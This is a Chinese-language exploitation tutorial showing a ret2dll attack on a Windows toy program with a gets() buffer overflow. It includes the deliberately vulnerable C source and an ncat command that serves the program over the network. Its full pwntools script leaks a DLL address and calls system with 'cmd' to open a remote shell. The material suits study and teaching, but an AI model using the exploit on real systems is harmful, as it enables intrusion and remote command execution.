

# ret2dll利用

原理與linux下的ret2libc類似，不過需要手動提取地址，目前pwntools不能提取exe文件地址。
源代碼如下
```
#include <stdio.h>
#include <ctype.h>
#define DEFAULT_LEN 16
int val(){
        char buff[DEFAULT_LEN] = {0};
        gets(buff);
}
int main(void)
{
        puts("start");
        fflush(stdout);
        val();
        fflush(stdout);
        puts("end");
        fflush(stdout);
}
```
使用gcc(MinGW-W64 x86_64-ucrt-posix-seh)在windows下編譯

`gcc "-Wl,--disable-reloc" -g -o ret2dll.exe ret2dll.c`


## 搭建臨時環境

使用ncat
`ncat -l 8080 --keep-open --exec ".\ret2dll.exe"`
使用win_server
win_server ./ret2dll.exe 8080

exp如下
```
from pwn import *

context.log_level='debug'
context.arch='amd64'
p=remote("192.168.0.190",8080)#這裏替換爲windows的ip
main_addr=0x14000155B#手動輸入地址
ret_addr=0x1400015D7
puts_plt=0x140002868
puts_got=0x14000829C
rdi_addr=0x140002447
rcx_addr=0x140002750
#bp 0x140001554


payload  = b'a' * (0x10 +8)
payload += p64(rcx_addr)
payload += p64(puts_got)
payload += p64(puts_plt)

payload += p64(main_addr)
p.recvuntil("start")
p.sendline(payload)
puts_leak=u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))

print("leak addr:",hex(puts_leak))

puts_dll=0x11014E470
cmd_dll=0x0110179E48
sytem_dll=0x0110117E50

dll_base=puts_leak-puts_dll
# dll_base=0x7ffe71e00000
print("base addr:",hex(dll_base))

cmd_addr = dll_base +cmd_dll
system_addr=dll_base+sytem_dll
print("start attck")
payload  = b'a' * (0x10 + 8)
payload += p64(ret_addr)
payload += p64(rcx_addr)
payload += p64(cmd_addr)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

效果如下

